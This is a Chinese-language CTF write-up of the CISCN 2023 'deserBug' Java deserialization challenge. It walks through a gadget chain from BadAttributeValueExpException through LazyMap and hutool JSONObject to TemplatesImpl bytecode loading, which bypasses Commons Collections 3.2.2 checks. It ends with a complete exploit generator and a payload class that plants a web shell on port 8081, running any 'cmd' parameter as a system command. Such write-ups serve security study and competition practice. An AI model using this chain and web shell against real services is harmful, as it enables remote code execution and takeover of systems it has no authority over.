



# CISCN 2023 deserBug

传递一个`bugstr`参数，后端会对其进行反序列化，若出现异常进行下面处理

```java
catch (Exception var8) {
    Myexpect myexpect = new Myexpect();
    myexpect.setTypeparam(new Class[]{String.class});
    myexpect.setTypearg(new String[]{var8.toString()});
    myexpect.setTargetclass(var8.getClass());
    try {
        result = myexpect.getAnyexcept().toString();
    } catch (Exception var7) {
        result = var7.toString();
    }
}
```

`Myexpect`类关键方法在`getAnyexcept`，调用了一个类的构造方法

```java
public Object getAnyexcept() throws Exception {
    Constructor con = this.targetclass.getConstructor(this.typeparam);
    return con.newInstance(this.typearg);
}
```

熟悉CC3链应该能马上反应过来，CC3中利用的类`TrAXFilter`的构造方法中调用了`TransformerImpl#newTransformer`，即`TemplatesImpl`链动态加载字节码

题目的环境是`Commons Collections 3.2.2`，该版本在一些危险的`Transformer`实现类的`readObject`前加上了`FunctorUtils#checkUnsafeSerialization`来检测反序列化是否安全。



若没有设置全局配置 `org.apache.commons.collections.enableUnsafeSerialization=true`，会抛出`UnsupportedOperationException`异常。

回到上面的处理流程，若直接打CC链，抛出异常被catch，执行`Myexpect#getAnyexcept`去实例化`UnsupportedOperationException`类，无法利用。而且这里又把异常类的构造器参数类型限制为`String.class`。一种思路是找到一个符合条件的可利用异常类，在反序列化过程中将其抛出。不好找遂放弃。

另一种思路是不走上面的异常处理（不进入`catch`），在反序列化的时候就去调用`Myexpect#getAnyexcept`。要调用一个类的`getter`方法，但题目又没有`fastjson`、`rome`之类的依赖。

结合放出的`hint`：`cn.hutool.json.JSONObject#put` -> `com.app.Myexpect#getAnyexcept`

不难想到，既然`fastjson`能调用`getter`，这个`hutool`工具类的`JSONObject`应该也可以

`cn.hutool.core.bean.copier.BeanToMapCopier#copy`负责将Bean的属性拷贝到Map中，通过反射调用Bean的`getter`方法。

调用链如下，最终执行`TrAXFilter`的构造方法，动态加载恶意字节码



`cn.hutool.json.JSONObject`是`Map`的子类，通过LazyMap去调用`JSONObject#put`，剩下的就是CC5的那段链子了。

> badAttributeValueExpException#readObject ->
>
> TiedMapEntry#toString ->
>
> TiedMapEntry#getValue ->
>
> LazyMap#get ->
>
> JSONObject#put

需要注意的是`LazyMap#get`

```java
public Object get(Object key) {
    // create value for key if key is not currently in the map
    if (map.containsKey(key) == false) {
        Object value = factory.transform(key);
        map.put(key, value);
        return value;
    }
    return map.get(key);
}
```

由于后面调用的getter的目标是这里的value，即`factory.transform(key)`要返回`Myexpect`

因此`factory`设置为`ConstantTransformer`（这个`Transformer`类没有重写`readObject`，不会进行反序列化安全检测），初始化时传入`Myexpect`。

题目环境貌似不能出网，利用hutool的`HttpUtil`工具类起个Web服务来写马

完整EXP：

```java
import cn.hutool.json.JSONObject;
import com.app.Myexpect;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;

public class Test {
    public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, newValue);
    }
    public static void main(String[] args) throws Exception {
        byte[] code = ClassPool.getDefault().get(a.class.getName()).toBytecode();
        TemplatesImpl obj = new TemplatesImpl();

        setFieldValue(obj, "_bytecodes", new byte[][] {code});
        setFieldValue(obj, "_name", "CC3");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        Myexpect myexpect = new Myexpect();
        myexpect.setTargetclass(TrAXFilter.class);
        myexpect.setTypeparam(new Class[] { Templates.class });
        myexpect.setTypearg(new Object[] { obj });

        JSONObject entries = new JSONObject();

        LazyMap lazyMap = (LazyMap) LazyMap.decorate(entries, new ConstantTransformer(myexpect));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "test");

        BadAttributeValueExpException bad = new BadAttributeValueExpException(null);
        setFieldValue(bad,"val",tiedMapEntry);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(bad);
        oos.close();

        byte[] byteArray = baos.toByteArray();
        String encodedString = Base64.getEncoder().encodeToString(byteArray);
        System.out.println(encodedString);
    }
}
```

`a.java`

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.BufferedReader;
import java.io.InputStreamReader;

public class a extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers)
            throws TransletException {}
    public void transform(DOM document, DTMAxisIterator iterator,
                          SerializationHandler handler) throws TransletException {}
    static {
        cn.hutool.http.HttpUtil.createServer(8081).addAction("/", (request, response) -> {
            String cmd = request.getParam("cmd");
            String result = "";
            if (cmd == null) {
                response.write("welcome,plz give me cmd", cn.hutool.http.ContentType.TEXT_PLAIN.toString());
            }
            try {
                Process process = Runtime.getRuntime().exec(cmd);
                BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
                String line;
                StringBuilder res = new StringBuilder();
                while ((line = reader.readLine()) != null) {
                    res.append(line);
                }
                result = res.toString();
            } catch (Exception var8) {
                result = "wrong";
            }
            response.write(result, cn.hutool.http.ContentType.TEXT_PLAIN.toString());
        }).start();
    }
}
```


